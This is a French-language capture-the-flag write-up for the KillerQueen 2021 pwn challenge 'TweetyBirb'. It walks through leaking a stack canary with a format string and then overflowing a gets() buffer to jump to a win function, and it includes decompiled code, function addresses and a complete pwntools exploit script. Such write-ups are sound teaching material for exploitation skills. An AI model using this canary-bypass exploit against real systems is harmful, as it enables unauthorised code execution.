



TweetyBirb | KillerQueen 2021 | Catégorie Pwn
November 25, 2021
TweetyBirb | KillerQueen 2021
Fichier(s)
Necessaires
- Netcat
- Python3 (+ pwntool)
Flag
kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}
Solution détaillée
Le but du challenge est de contourner une protection anti-smashing du binaire : Canary

Nous devons d’abord voir si un BOF est possible. Ici il n’y a que 2 input donc sans grande surprise, on trouve notre point d’entré :

Le but est de faire leak la protection Canary dans le premier input pour ensuite exploiter un Buffer Over Flow dans le second.
La protection Canary fonctionne sur un principe simple. Elle compare sa valeur après avoir reçu un buffer avec celle d’avant. Si les 2 valeurs sont différents : Le Canary comprend qu’un trop gros Buffer est entré et donc empêche la suite d’exécution du programme .
Etape 1 : ByeBye Canary
On va utiliser des FormatStrings pour localiser l’emplacement du Canary et créer un Buffer à la bonne taille pour le dépasser.
Je lance Ghidra pour regarder le code du binaire et avoir la taille du Buffer de l’input. On cherche sa taille précise pour le remplir entièrement :
Voici le code obtenu
undefined8 main(void)
{
long in_FS_OFFSET;
char local_58 [72];
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
puts(
"What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it\'s not like you hacker can do anything. Anyways, what do you think of magpies?"
);
gets(local_58);
printf(local_58);
puts("\nhmmm interesting. What about water fowl?");
gets(local_58);
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
return 0;
}
On remarque tout de suite :
char local_58 [72];
On a donc la taille pour remplir notre Buffer. Maintenant grâce à python, faisons leak notre Offset du Canary .
Je choisis la Format string : %08x.
from pwn import *
proc = process('./tweetybirb')
print(proc.recvline().decode("utf-8") )
payload = b''
payload += b'A'*72
payload += b'%08x.'*100
proc.sendline(payload)
print(proc.recv(1024))

On peut voir qu’on a une répétition de 41414141 . Le Canary se trouve juste après , ici est donc en 15ème position . Il leak de cette manière :
proc.sendline(b'%15$p')
Etape 2 : Jump to Flag
Maintenant que nous avons fait sauter la sécurité, nous pouvons chercher notre BufferOverFlow : Après quelques secondes de recherches, on trouve 2 fonctions intéressantes :
void bufinit(void)
{
setvbuf(stdout,(char *)0x0,2,0);
setvbuf(stdin,(char *)0x0,2,0);
setvbuf(stderr,(char *)0x0,2,0);
return;
}
void win(void)
{
system("cat /home/user/flag.txt");
return;
}
Déterminons les adresses des fonctions avec radare2
Executons:
r2 TweetyBirb
aaa
afl
et on obtient les adresses :
0x004010f0 1 46 entry0
0x00401130 4 33 -> 31 sym.deregister_tm_clones
0x00401160 4 49 sym.register_tm_clones
0x004011a0 3 33 -> 32 sym.__do_global_dtors_aux
0x004011d0 1 6 entry.init0
0x00401273 1 101 sym.bufinit
0x004010e0 1 11 sym.imp.setvbuf
0x00401350 1 5 sym.__libc_csu_fini
0x00401358 1 13 sym._fini
0x004012e0 4 101 sym.__libc_csu_init
0x004011d6 1 28 sym.win
0x004010b0 1 11 sym.imp.system
0x00401120 1 5 sym._dl_relocate_static_pie
0x004011f2 3 129 main
0x00401090 1 11 sym.imp.puts
0x004010d0 1 11 sym.imp.gets
0x004010c0 1 11 sym.imp.printf
0x004010a0 1 11 sym.imp.__stack_chk_fail
0x00401000 3 27 sym._init
On peut donc créer notre exploit final :
from pwn import *
ip = '143.198.XXX.XXX'
port = 5002
if not args.REMOTE:
proc = process('./tweetybirb')
else:
proc = remote(ip, port)
proc.recv()
proc.sendline(b'%15$p')
canary = int((proc.recvline().decode('latin-1')),16)
payload = b'A'*72
payload += p64(canary)
payload += b'A'*8
payload += p64(0x401272)
payload += p64(0x4011d6)
proc.sendline(payload)
log.success(f'Flag: {proc.recvall().decode()}')
(J’ai modifié un peu le binaire pour qu’il pointe vers “/c/flag.txt” et “/home/user/flag.txt” car le chemin d’accès n’existe pas sur ma machine. C’était celui de la machine sur lequel était exécuté le binaire. )
Et voilà : 
Merci de m’avoir lu et n’hésitez pas à me donner un retour.